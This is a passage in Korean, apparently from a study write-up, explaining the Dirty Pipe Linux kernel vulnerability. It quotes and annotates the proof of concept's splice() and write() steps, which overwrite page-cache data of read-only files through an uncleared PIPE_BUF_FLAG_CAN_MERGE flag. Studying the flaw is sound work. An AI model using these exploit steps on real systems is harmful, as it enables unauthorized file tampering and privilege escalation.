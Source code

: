 파이프를 채우고 나면 다시 전부 read하면서 파이프를 비운다.  
이러면 `pipe_buffer` 구조체의 데이터는 해제되지만 구조체 자체의 메모리는 재사용이 가능하다.  

하지만 커널이 `flags` 필드를 초기화하지 않고 남겨두기 때문에 재사용 시 `PIPE_BUF_FLAG_CAN_MERGE` 플래그가 설정된 상태로 남는다.  

따라서 커널이 새로운 데이터를 넣더라도 플래그가 이미 설정되어 있어 이후 `write()` 호출 시 페이지 캐시 페이지에 append가 가능해 취약점이 발생한다.  
<br>

---

```c
/* splice one byte from before the specified offset into the
    pipe; this will add a reference to the page cache, but
    since copy_page_to_iter_pipe() does not initialize the
    "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
--offset;
ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
if (nbytes < 0) {
    perror("splice failed");
    return EXIT_FAILURE;
}
if (nbytes == 0) {
    fprintf(stderr, "short splice\n");
    return EXIT_FAILURE;
}
```

데이터를 덮어쓰고자 하는 위치의 바로 직전 바이트(offset-1)를 파이프로 `splice()`하면 파이프 안에는 offset-1 위치까지 1바이트 길이의 `pipe_buffer`가 생긴다.  
이후 `write()`가 바로 그 다음 바이트인 offset부터 append하기 때문에 덮어쓰기 시작점을 정확히 offset에 맞추기 위해 `--offset;`을 사용하는 것이다.  

offset을 페이지 경계로 하면 offset-1이 이전 페이지가 되어 실패하기 때문에 offset을 페이지 경계로 두면 안 되는 것이다.  

`splice()` 함수를 사용하여 대상 파일의 페이지 캐시 페이지를 참조해 파이프에 zero-copy로 연결한다.  
<br>

---

```c
/* the following write will not create a new pipe_buffer, but
    will instead write into the page cache, because of the
    PIPE_BUF_FLAG_CAN_MERGE flag */
nbytes = write(p[1], data, data_size);
if (nbytes < 0) {
    perror("write failed");
    return EXIT_FAILURE;
}
if ((size_t)nbytes < data_size) {
    fprintf(stderr, "short write\n");
    return EXIT_FAILURE;
}
```

바로 후에 `write()` 함수롤 사용하여 데이터를 write하면 해당 파이프의 마지막 `pipe_buffer`가 페이지 캐시 페이지를 참조하고 있고 `PIPE_BUF_FLAG_CAN_MERGE`가 초기화되어 있지 않고 설정되어 있기 때문에 새로운 `pipe_buffer`를 만들지 않고 페이지 캐시 페이지를 덮어쓴다.  
